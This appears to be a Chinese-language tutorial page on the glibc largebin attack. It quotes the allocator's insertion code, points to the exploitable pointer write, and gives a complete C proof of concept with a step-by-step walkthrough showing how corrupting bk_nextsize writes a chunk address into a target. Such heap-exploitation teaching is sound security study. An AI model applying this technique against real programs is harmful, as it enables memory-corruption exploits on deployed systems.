




|||
|-|-|
|版本|latest|
|效果|使目標被修改為某個chunk|

## unsortedbin放chunk回largebin的情況

### 如果size為比bin鍊最後一塊(同時也是最小塊)還小，就直接插入尾端

```c
if ((unsigned long)(size) < (unsigned long)chunksize_nomask(bck->bk))
{
    fwd = bck;
    bck = bck->bk;

    victim->fd_nextsize = fwd->fd;
    victim->bk_nextsize = fwd->fd->bk_nextsize;
    fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
}
```

### 主要攻擊點

```c
fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
```

達成以下條件，就能使`target`被寫入`victim`:  

- 我們可以控制`victim->bk_nextsize`為`target - 0x20`
- 接下來放入的chunk是比該bin鍊的所有chunk還小

## exploit

### 完整腳本

```c
#include<stdio.h>
#include<stdlib.h>
#include<assert.h>

int main(){
    /*Disable IO buffering to prevent stream from interfering with heap*/
    setvbuf(stdin,NULL,_IONBF,0);
    setvbuf(stdout,NULL,_IONBF,0);
    setvbuf(stderr,NULL,_IONBF,0);


    size_t target = 0xdeadbeef;
    size_t *p1 = malloc(0x428);
    size_t *g1 = malloc(0x18);
    size_t *p2 = malloc(0x418);
    size_t *g2 = malloc(0x18);

    free(p1);
    size_t *g3 = malloc(0x438);

    free(p2);

    p1[3] = (size_t)((&target)-4);

    size_t *g4 = malloc(0x438);

    printf("Target (%p) : %p\n",&target,(size_t*)target);
    assert((size_t)(p2-2) == target);

    return 0;
}
```

### 先宣告兩個大chunk

```c
int main(){
    /*Disable IO buffering to prevent stream from interfering with heap*/
    setvbuf(stdin,NULL,_IONBF,0);
    setvbuf(stdout,NULL,_IONBF,0);
    setvbuf(stderr,NULL,_IONBF,0);


    size_t target = 0xdeadbeef;
    size_t *p1 = malloc(0x428);
    size_t *g1 = malloc(0x18);
    size_t *p2 = malloc(0x418);
    size_t *g2 = malloc(0x18);
```

### 把其中一個丟進largebin

```c
    free(p1);
    size_t *g3 = malloc(0x438);
```



### 現在第二個chunk在unsortedbin

```c
    free(p2);
```



### 修改第一個chunk的bk_nextsize

```c
    p1[3] = (size_t)((&target)-4);
```

### 把第二個chunk從unsortedbin丟回largebin

```c
    size_t *g4 = malloc(0x438);
```




